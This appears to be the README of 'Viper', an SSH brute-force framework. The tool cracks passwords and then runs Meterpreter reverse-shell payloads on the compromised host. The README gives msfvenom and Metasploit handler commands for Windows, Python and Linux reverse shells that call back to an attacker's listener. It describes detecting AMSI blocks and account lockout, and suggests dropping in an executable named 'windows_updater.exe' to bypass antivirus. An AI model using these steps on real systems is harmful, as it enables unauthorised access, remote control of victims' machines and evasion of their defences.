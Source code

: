 Viper V1.2
================
Viper is a SSH Multi-Threaded Brute force Framework

<img src="https://raw.githubusercontent.com/darkseid-security/Viper/main/Screenshots/Screenshot_2023-09-25_14_36_01.png" height="500" width="1000">
 
Features
=============
- Multi Threaded using multiprocessing can use a maximum of 5 Threads
- Easy to configure 
- Adjustable Threads
- Visual UI including progress bar
- When password is cracked program will attempt to execute a meterpreter payload
- Built in reverse meterpreter shell for Linux and Windows
- Supports x86,x64 archtechture for Windows and Linux
- [*Updated Feature] Added python/meterpreter/reverse_tcp_ssl
- [*New Feature] Added windows/meterpreter/reverse_tcp 
- [*New Feature] Detects account lockout
- [*New Feature] Detects if AMSI has blocked payload
- [*New Feature] Upload file to server if code execution fails
 

TODO
=========
- Add OS version detection


Payloads
=================

* Windows Meterpreter:
  - generate payload from exploit/multi/script/web_delivery for every metasploit session
  - enable SSL: set SSL true
  - set payload windows/meterpreter/reverse_tcp
  - Select powershell payload: set target 2
  - set LPORT 8443
  - set LHOST
  - run
  - copy payload and replace value of client.exec_command()
  
* Python Meterpreter:
 - generate payload: msfvenom -p payload python/meterpreter/reverse_tcp_ssl lhost=IP lport=4433 -f python -o update.py
 - use exploit/multi/handler
 - set payload python/meterpreter/reverse_tcp_ssl
 - set LPORT 4433
 - set LHOST
 - run -j
 
* Linux Meterpreter:
 - generate payload: msfvenom -p payload linux/x86/meterpreter_reverse_https lhost=IP lport=443 -f elf -o payload.elf
 - use exploit/multi/handler
 - set payload linux/x86/meterpreter_reverse_https
 - set LPORT 443
 - set LHOST
 - run -j

Note
=========
- If threads set to 5 if someone logs in to SSH while brute-forcing program will crash.
- Add own windows executable to /Files/windows_updater.exe to bypass AV and change windows_malware variable to windows_updater.exe.

Run
========
- Generate payloads/files and put in Files folder
- Edit config in Viper.py script to set to target
